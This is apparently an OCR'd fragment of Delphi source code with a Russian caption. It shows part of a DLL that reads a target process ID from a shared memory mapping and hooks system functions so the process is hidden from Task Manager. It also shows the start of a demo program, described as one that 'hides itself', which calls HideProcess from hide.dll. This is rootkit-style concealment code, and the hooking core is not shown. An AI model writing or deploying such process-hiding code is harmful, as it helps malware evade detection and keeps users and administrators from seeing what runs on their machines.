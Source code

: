     begin
      hmap := OpenFileMapping(FILE_MAP_READ, false, 'NtHideFileMapping');
      if hmap = 0 then
        exit;
      try
        mapaddr := MapViewOfFile(hmap, FILE_MAP_READ, 0, 0, 0);
        if mapaddr = nil then
          exit;
        mypid := mapaddr^;
        hideOnlyTaskMan := PBOOL(DWORD(mapaddr) + 4);
        if hideOnlyTaskMan^ then
        begin
          fname := allocMem(MAX_PATH + 1);
          GetModuleFileName(GetModuleHandle(nil), fname, MAX_PATH + 1);
          // if not (ExtractFileName(fname)='taskmgr.exe') then exit;
        end;
        InterceptFunctions;
      finally
        UnmapViewOfFile(mapaddr);
        CloseHandle(Hmap);
        DLLProc := @LibraryProc;
      end;
    end.

Текст програмки, прячущей саму себя:

    program HideProj;
     
    uses
      windows, messages;
     
    function HideProcess(pid: DWORD; HideOnlyFromTaskManager: BOOL): BOOL; stdcall;
      external 'hide.dll';
     
    function ProcessMessage(var Msg: TMsg): Boolean;
    var
      Handled: Boolean;
    begin
      Result := False;
      begin
        Result := True;
        if Msg.Message <> WM_QUIT then
        begin
          Handled := False;
          begin
            TranslateMessage(Msg);
            DispatchMessage(Msg);
          end;
        end
      end;
    end;
     
    procedure ProcessMessages;
    var
      Msg: TMsg;
    begin
      while ProcessMessage(Msg) do {loop}
        ;
    end;
     